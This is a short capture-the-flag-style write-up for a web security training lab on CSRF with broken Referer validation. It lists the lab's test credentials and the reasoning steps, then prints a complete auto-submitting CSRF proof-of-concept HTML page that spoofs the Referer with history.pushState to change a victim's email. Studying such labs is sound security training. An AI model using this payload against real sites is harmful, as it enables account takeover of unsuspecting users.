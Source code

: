 # CSRF with broken Referer validation
- lab's email change functionality is vulnerable to CSRF
- attempts to detect and block cross domain requests
- credentials: wiener:peter
# Goal
- use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address
# solving The Lab
- log in and change email
- for CSRF To be possibel
  - Certain Action : change email
  - cookie based session handeling : session cookie
  - no unpredictablle request parameters :
- now try our same expoit from burp csrf poc but we got n error that says invalid refer header
- now we test for referer header
  - remove referer headeer and check the response
  - check which portian of the header the application is validating and spoof it
- now our script
```
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0a3e00cf04fb2d14815a61e800cd000a.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="test&#64;mail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/?0a3e00cf04fb2d14815a61e800cd000a.web-security-academy.net');

      document.forms[0].submit();

    </script>

  </body>

</html>


```
- lab is solved
  

